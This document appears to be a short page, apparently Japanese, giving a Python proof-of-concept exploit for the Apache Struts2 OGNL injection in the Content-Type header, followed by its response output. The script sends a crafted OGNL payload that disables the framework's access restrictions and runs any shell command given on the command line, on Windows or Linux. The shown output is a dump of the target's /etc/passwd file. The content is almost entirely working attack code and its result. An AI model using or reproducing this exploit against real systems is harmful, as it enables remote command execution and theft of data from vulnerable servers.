 
```
#! -*- encoding: utf-8 -*-

import requests
import sys
def poc(url, cmd):
    payload = "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='" + cmd + "').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

    headers = {}
    headers["Content-Type"] = payload
    r = requests.get(url, headers=headers)
    print(r.content)

if __name__ == '__main__':
    if len(sys.argv) == 1:
        print "python ex.py target command"
        sys.exit()
    cmd = ""
    for c in range(2, len(sys.argv)):
        cmd += sys.argv[c] + " "

    poc(sys.argv[1], cmd)
```

レスポンス
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false
```
